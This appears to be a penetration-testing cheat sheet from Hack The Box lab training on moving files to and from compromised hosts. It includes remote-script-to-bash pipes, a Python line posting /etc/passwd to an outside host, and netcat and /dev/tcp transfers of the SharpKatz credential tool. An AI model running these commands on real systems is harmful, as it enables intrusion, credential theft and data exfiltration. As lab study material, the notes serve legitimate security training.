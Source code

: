 
## Download
#### Python
```shell
h@htb[/htb]$ python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

```shell
h@htb[/htb]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
#python

#### PHP
```shell
h@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

```shell
h@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

```shell
h@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```
#php

#### Ruby
```shell
h@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

```shell
h@htb[/htb]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```
[[ruby]]

#### JS [[js]]
Create wget.js:
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
Run:
```powershell
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```
[[powershell]]

#### VB [[vbscript]]
```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

```cmd-session
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

## Upload
```shell
python3 -m uploadserver 
```

```shell
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

## Misc

[[ncat]] [[nc]] 
Recieve
```shell-session
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
```

```shell
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

```shell
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```

```shell
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

Send
```shell
jabrach@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

```shell
jabrach@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

```shell
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```shell
jabrach@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```shell
jabrach@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### PowerShell Session File Transfer
[[powershell]]
```powershell
PS C:\htb> whoami

htb\administrator

PS C:\htb> hostname

DC01
```

```powershell
Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

```powershell
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```

```powershell
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

```powershell
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

#### RDP
[[rdp]]
```shell
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

```shell
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

